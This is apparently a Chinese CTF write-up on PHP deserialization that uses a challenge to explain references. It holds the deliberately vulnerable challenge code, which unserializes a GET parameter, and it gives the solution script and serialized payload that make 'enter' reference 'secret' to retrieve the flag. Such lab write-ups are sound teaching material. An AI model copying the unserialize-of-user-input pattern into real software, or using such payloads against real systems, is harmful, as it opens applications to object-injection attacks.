

---
tags:
  - PHP
  - serialize
Date: 2026-01-31
---
通过一道例题解释引用的概念
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
include("flag.php");  
class just4fun {  
    var $enter;  
    var $secret;  
}  
  
if (isset($_GET['pass'])) {    $pass = $_GET['pass'];    $pass=str_replace('*','\*',$pass);  
}  
  
$o = unserialize($pass);  
  
if ($o) {    $o->secret = "*";  
    if ($o->secret === $o->enter)  
        echo "Congratulation! Here is my secret: ".$flag;  
    else  
        echo "Oh no... You can't fool me";  
}  
else echo "are you trolling?";  
?>
```
### 分析
1.依旧是通过get提交pass的参数之后反序列化实例化对象
2.默认给secret赋值*，if判断条件是secret参数和enter一致

### 问题
1.pass里面出现`*`就会直接被过滤为`\*`

### 解决
```php
<?php
class just4fun {
    var $enter;
    var $secret;
}
$a = new just4fun();
$a->enter = &$a->secret;
echo serialize($a)."\n";
?>
```
`$a->enter = &$a->secret;`
直接用地址符引用
```php
O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```
这时序列化后的结果
R:2的标识代表第1次出现，当secret被赋值后，enter的值也会随之改变

